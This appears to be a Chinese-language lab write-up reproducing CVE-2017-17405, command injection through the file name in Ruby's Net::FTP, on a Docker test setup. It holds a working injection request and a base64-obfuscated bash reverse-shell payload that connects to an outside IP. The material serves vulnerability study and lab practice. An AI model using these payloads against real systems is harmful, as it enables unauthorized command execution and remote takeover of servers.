



# Ruby Net::FTP 模块命令注入漏洞 CVE-2017-17405

## 漏洞描述

Ruby Net::FTP 模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

## 环境搭建

Vulhub编译及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将可以看到一个HTTP服务。这个HTTP服务的作用是，我们访问`http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`，它会从example.com:2121这个ftp服务端下载文件vulhub.txt到本地，并将内容返回给用户。

## 漏洞复现

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python：

```
# 安装pyftpdlib
pip install pyftpdlib

# 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```


然后即可开始利用漏洞。注入命令`|touch${IFS}awesome_poc.txt`（空格用`${IFS}`代替，原因不表），发送如下数据包即可（其中uri指定的ftp服务器就是我用python运行的一个简单的ftp server，其中无需放置任何文件）：

```
GET /download?uri=ftp://your-vps:2121/&file=|touch${IFS}awesome_poc.txt HTTP/1.1
Host: your-ip:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```



然后进入docker容器内，可见awesome_poc.txt已被创建：



执行反弹shell的命令，成功反弹：

```
|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo}|{base64,-d}|{bash,-i}'
```



> kali中反弹失败，vps反弹成功，可能是因为kali的默认shell为zsh

